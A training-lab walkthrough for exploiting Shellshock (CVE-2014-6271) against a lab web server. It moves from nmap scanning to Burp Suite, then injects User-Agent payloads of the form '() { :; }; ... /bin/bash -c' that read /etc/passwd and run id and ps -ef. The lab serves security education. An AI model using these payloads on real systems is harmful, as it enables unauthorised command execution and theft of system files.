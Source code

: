# LAB: Shellshock

#### **Step 1:** Open the lab link to access the Kali machine.

<figure><img src="https://assets.ine.com/lab/learningpath/70a0aa1189bd83fe58de3df6dba300a4a972805e46f9c84d9832afab6a2fff7b.jpg" alt=""><figcaption></figcaption></figure>

#### **Step 2:** Run Nmap scan on the target to find open ports.

**Command:**

```
nmap demo.ine.local
```

<figure><img src="https://assets.ine.com/lab/learningpath/2436e2881cbd9fdbfb5ffd4b0ea5f3e4e5b01e01d9d2ebeecddced0a46e8de62.jpg" alt=""><figcaption></figcaption></figure>

Port 80 is open

#### **Step 3:** Start firefox and navigate to the target domain.

**URL:**

```
http://demo.ine.local
```

<figure><img src="https://assets.ine.com/lab/learningpath/5009749deae5ada57291c6f04e2e9ca2e13af0302ec6ede96815a47a98752c60.jpg" alt=""><figcaption></figcaption></figure>

A website is running at port 80 of the target.

#### **Step 4:** Right-click and select "View Page Source."

<figure><img src="https://assets.ine.com/lab/learningpath/8823daabc5fed4074a55cbbd88558b9eac23313511707ad35646af8aab5d5228.jpg" alt=""><figcaption></figcaption></figure>

A CGI script is running on the target server.

#### **Step 5:** Use the Nmap NSE script to check if the server is vulnerable to shellshock attack.

**Command:**

```
nmap --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" demo.ine.local
```

<figure><img src="https://assets.ine.com/lab/learningpath/f9ff6ea01e65a63566f716bca27559bdb9873c7cf53ec3b8a877ac3910b576ca.jpg" alt=""><figcaption></figcaption></figure>

The server is vulnerable to Shellshock attack.

#### **Step 6:** Search for the available exploit for shellshock vulnerability.

<figure><img src="https://assets.ine.com/lab/learningpath/9e049594517b14561ef55aee927a3d1506e5adff5bc1f79f117199787c209a7a.jpg" alt=""><figcaption></figcaption></figure>

#### **Step 7:** The GitHub link contains the steps to exploit the vulnerability.

**URL:** https://github.com/opsxcq/exploit-CVE-2014-6271

<figure><img src="https://assets.ine.com/lab/learningpath/47913a6302cd9c8f2459dc8e88879635adaafaf65ae93554c4d6b9ca4a250167.jpg" alt=""><figcaption></figcaption></figure>

The attacker has to craft malicious user-agent in order to exploit the vulnerability.

#### **Step 8:** Configure Firefox to use Burp Suite. Click on the FoxyProxy plugin icon on the top-right of the browser and select "Burp Suite."

<figure><img src="https://assets.ine.com/lab/learningpath/5b6983696578c128d12d48200bc751be894798e9b0870a028156bc34b3ecef29.jpg" alt=""><figcaption></figcaption></figure>

#### **Step 9:** Start Burp Suite, navigate to proxy, and turn on the intercept.

Reload the page and intercept the request with Burp Suite.

<figure><img src="https://assets.ine.com/lab/learningpath/a76d6d4ac7bfe6280f3b326e6458ff16129b9717f9e210427fce1e854b59d1c8.jpg" alt=""><figcaption></figcaption></figure>

#### **Step 10:** Right-click and select “Send to Repeater” Option and Navigate to the Repeater tab.

<figure><img src="https://assets.ine.com/lab/learningpath/614a649cc29b68807b9cefaf7d4eca247e602312d4482ebcdbff527bdf9c7c6d.jpg" alt=""><figcaption></figcaption></figure>

#### **Step 11:** Modify the User-Agent and inject the malicious payload.

**Payload:**

```
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```

<figure><img src="https://assets.ine.com/lab/learningpath/8b77c41dd83f78deca854e91662a659856d43a77837242cd2347661d04624220.jpg" alt=""><figcaption></figcaption></figure>

Click on the Send button.

<figure><img src="https://assets.ine.com/lab/learningpath/fae12094183850d221b8d416db4500c00f34d401cfc741ca5ea20ac3c779a243.jpg" alt=""><figcaption></figcaption></figure>

The command executed successfully.

#### **Step 12:** Modify the payload to execute the ‘id’ command.

**Payload:**

```
() { :; }; echo; echo; /bin/bash -c 'id'
```

<figure><img src="https://assets.ine.com/lab/learningpath/262899f1b5c1992fe834d2320ea249e27e6364604682d4f32c3f1597eb22a297.jpg" alt=""><figcaption></figcaption></figure>

#### **Step 13:** Modify the payload to execute ‘ps -ef’ command.

**Payload:**

```
() { :; }; echo; echo; /bin/bash -c 'ps -ef'
```

<figure><img src="https://assets.ine.com/lab/learningpath/3daf87210df6ee78263a3e0bd590f51cf653f4ccb9217c7bacb35a25d121ad82.jpg" alt=""><figcaption></figcaption></figure>
